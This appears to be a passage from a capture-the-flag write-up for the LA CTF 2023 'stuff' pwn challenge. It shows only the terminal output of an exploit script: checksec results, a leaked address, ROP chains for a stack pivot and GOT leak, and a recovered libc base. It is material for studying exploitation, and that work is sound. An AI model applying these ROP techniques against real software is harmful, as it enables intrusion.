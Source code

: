 Output:

<pre><code>[ctf@fedora-ctf stuff]$ ./solve.py 
[<span style="color:#005DD0"><b>*</b></span>] &apos;/home/ctf/lactf-archive/2023/pwn/stuff/stuff&apos;
    Arch:     amd64-64-little
    RELRO:    <span style="color:#A2734C">Partial RELRO</span>
    Stack:    <span style="color:#C01C28">No canary found</span>
    NX:       <span style="color:#26A269">NX enabled</span>
    PIE:      <span style="color:#C01C28">No PIE (0x400000)</span>
[<span style="color:#005DD0"><b>*</b></span>] &apos;/home/ctf/lactf-archive/2023/pwn/stuff/libc.so.6&apos;
    Arch:     amd64-64-little
    RELRO:    <span style="color:#26A269">Full RELRO</span>
    Stack:    <span style="color:#26A269">Canary found</span>
    NX:       <span style="color:#26A269">NX enabled</span>
    PIE:      <span style="color:#26A269">PIE enabled</span>
[<span style="color:#26A269"><b>+</b></span>] Opening connection to lac.tf on port 31182: Done
[<span style="color:#005DD0"><b>*</b></span>] hex(leak)=&apos;0x1cc6ec0&apos;
[<span style="color:#005DD0"><b>*</b></span>] hex(buffer_addr)=&apos;0x1cc5eb0&apos;
[<span style="color:#005DD0"><b>*</b></span>] Loading gadgets for &apos;/home/ctf/lactf-archive/2023/pwn/stuff/stuff&apos;
[<span style="color:#005DD0"><b>*</b></span>] 0x0000:         0x404040 got.puts
    0x0008:         0x40120f
[<span style="color:#005DD0"><b>*</b></span>] Loaded 5 cached gadgets for &apos;./stuff&apos;
[<span style="color:#005DD0"><b>*</b></span>] 0x0000:      b&apos;AAAAAAAA&apos; b&apos;AAAAAAAA&apos;
    0x0008:         0x40115d pop rbp; ret
    0x0010:        0x1cc66b0
    0x0018:         0x401234 leave; ret
[<span style="color:#005DD0"><b>*</b></span>] 0x0000:         0x404050 stdout
    0x0008:         0x40120f
    0x0010:         0x401086
    0x0018:         0x40115d pop rbp; ret
    0x0020:         0x404040 got.puts
    0x0028:         0x40120f
    0x0030:         0x401076
    0x0038:         0x40115d pop rbp; ret
    0x0040:         0x404030 got.setbuf
    0x0048:         0x40120f
    0x0050:         0x401076
    0x0058:         0x40120f
    0x0060:         0x40115d pop rbp; ret
    0x0068:             0x46
    0x0070:         0x4011b0
    0x0078:         0x40115d pop rbp; ret
    0x0080:        0x1cc5f35
    0x0088:         0x401207
    0x0090:         0x401227
    0x0098:         0x401076
    0x00a0:         0x40115d pop rbp; ret
    0x00a8:        0x1cc5eb0
    0x00b0:         0x401234 leave; ret
[<span style="color:#005DD0"><b>*</b></span>] 0x0000:      b&apos;BBBBBBBB&apos; b&apos;BBBBBBBB&apos;
    0x0008:         0x40115d pop rbp; ret
    0x0010:         0x40115d pop rbp; ret
    0x0018:      b&apos;CCCCCCCC&apos; b&apos;CCCCCCCC&apos;
[<span style="color:#005DD0"><b>*</b></span>] 0x0000:         0x40115d pop rbp; ret
    0x0008:      b&apos;DDDDDDDD&apos; b&apos;DDDDDDDD&apos;
    0x0010:      b&apos;EEEEEEEE&apos; b&apos;EEEEEEEE&apos;
    0x0018:         0x40115d pop rbp; ret
[<span style="color:#005DD0"><b>*</b></span>] hex(libc.address)=&apos;0x7f8d67143000&apos;